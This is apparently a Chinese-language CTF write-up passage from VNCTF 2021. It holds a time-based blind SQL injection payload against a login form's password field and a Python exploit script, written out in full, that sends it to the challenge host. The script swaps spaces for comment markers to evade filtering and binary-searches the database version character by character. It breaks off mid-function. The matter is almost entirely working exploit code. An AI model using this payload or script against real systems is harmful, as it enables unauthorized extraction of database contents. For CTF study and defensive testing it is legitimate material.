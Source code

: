 payload：

```
-1'and if(`payload`,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0);#
```

脚本：

```python
"""
-*- coding: utf-8 -*-
@File: exp.py
@Author: gyy
@Time: 3月 14, 2021
"""
import requests
import time
import random

url = "http://{}.c56083ac-9da0-437e-9b51-5db047b150aa.jvav.vnctf2021.node4.buuoj.cn:82/user/login"
# {}由于开了多个靶机，每次随机访问某个靶机，可以减少冲突可能

def req(payload):
    payload = payload.replace(" ", "/**/")
    print(payload)
    data = {
        "username": "admin",
        "password": payload
    }
    url1 = url.format(random.randrange(1,5,1)) # 随机访问
    # print(url1)
    res = requests.post(url=url1, data=data, timeout=None)# 不限制超时
    # print(res.text)
    if "504 Gateway Time-out" in res.text: # 504即为正确
        return 1
    else:
        return -1


def binary_search(payload):  # 二分法~
    # payload = payload.replace("=",">=")
    high = 127
    low = 32
    while True:
        time.sleep(0.05)
        if (high - low) < 4:
            for mid in range(low, high + 1):
                time.sleep(0.05)
                if req(payload % mid) == -1:
                    return mid
            return -1
        mid = (high + low) // 2
        pd = payload % mid
        if req(pd) == 1:
            low = mid + 1
        else:
            high = mid


def version():
    resultstr = ""
    for i in range(1, 100):
        payload = "-1'and if((ascii(substr(version(),{},1))>%d),(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0);#".format(
```